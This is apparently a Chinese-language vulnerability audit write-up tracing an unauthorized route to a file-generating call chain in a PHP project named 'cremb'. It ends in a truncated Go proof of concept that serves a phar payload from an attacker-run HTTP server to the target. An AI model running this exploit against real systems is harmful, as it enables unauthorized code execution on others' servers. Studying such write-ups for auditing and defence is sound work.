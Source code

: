 第一点很好理解,这里就不再赘述,接下来我主要描述第二点:

关于未授权接口,不同的项目有不同的表现形式,以我审计的这个项目为例:

![image-20221209225336704](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20221209225336704.png)

可以看到在这个项目的 `route`文件夹下已经规定了很多路由,很幸运的是,  作者对接口进行了注释分类, 而每个未授权的接口又存在对应的控制器,

![image-20221209225517198](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20221209225517198.png)

因此我们此时的目的就很简单了, 让回溯的函数最后出现在这些控制器文件中,然后去看对应控制函数的调用是否是未授权调用.

最后我找到一个调用链:

![image-20221209231605621](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20221209231605621.png)

于是访问路由, 生成`qrcode` 文件夹.

![image-20221209231817345](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20221209231817345.png)

### Poc

```go
package main

import (
    "errors"
    "fmt"
    "math/rand"
    "net/http"
    "os"
    "os/exec"
    "strings"
    "time"

    "github.com/imroc/req/v3"
)

var (
    count     uint8  = 0
    target    string = "http://cremb"
    startTime int64
    router    string
    serverUrl string
)

func index(w http.ResponseWriter, req *http.Request) {
    count++
    fmt.Println("And count is: ", count)
    w.WriteHeader(201)
    w.Header().Set("Content-Type", "application/octet-stream")
    content, err := os.ReadFile("exp/exp.phar.gz")
    if err != nil {
        fmt.Println("Read file error", err)
    }
    w.Write(content)
}

func exp() {
    err := stepOne()
    if err != nil {
        fmt.Println("[--] ", err)
        return
    }
    err = stepTwo()
    if err != nil {
```